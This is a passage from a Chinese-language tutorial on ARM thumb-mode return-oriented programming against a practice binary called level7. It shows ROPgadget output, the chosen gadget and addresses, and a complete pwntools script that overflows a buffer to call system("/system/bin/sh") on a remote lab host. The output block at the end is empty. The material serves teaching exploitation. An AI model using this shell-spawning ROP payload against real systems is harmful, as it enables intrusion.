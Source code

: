 在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行system("/system/bin/sh")。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向"/system/bin/sh"这个字符串的地址，然后再调用system()函数达到我们的目的。  

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:  
```
$ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc}
0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc}
0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc}
0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr
……
```
在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：  

`0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}`  
接下来就是找system和"/system/bin/sh"的地址，分别为0x00008404和000096C0：  


![](../pictures/linuxrop9.jpg)   


![](../pictures/linuxrop10.jpg)   

要注意的是，因为system()函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：  
``` python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x0000894a + 1

#"/system/bin/sh"
r0 = 0x000096C0

#.plt:00008404 ; int system(const char *command)
systemaddr = 0x00008404 

payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)

p.send(payload)

p.interactive()
```
执行结果如下：  
```
```